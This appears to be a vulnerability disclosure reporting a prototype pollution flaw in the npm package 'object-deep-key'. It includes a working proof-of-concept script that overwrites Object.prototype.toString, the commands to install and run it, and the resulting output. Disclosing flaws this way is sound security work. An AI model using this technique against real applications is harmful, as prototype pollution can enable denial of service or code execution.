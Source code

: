 # Description

`object-deep-key` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const objDeepKey = require('object-deep-key').default

console.log(`Before: ${{}.toString}`)
objDeepKey(constructor.prototype, 'toString').set('function prototype polluted')
console.log(`After: ${{}.toString}`)
```
2. Execute the following commands in the terminal:
```bash
npm i object-deep-key # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: function toString() { [native code] }
After: function prototype polluted
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.


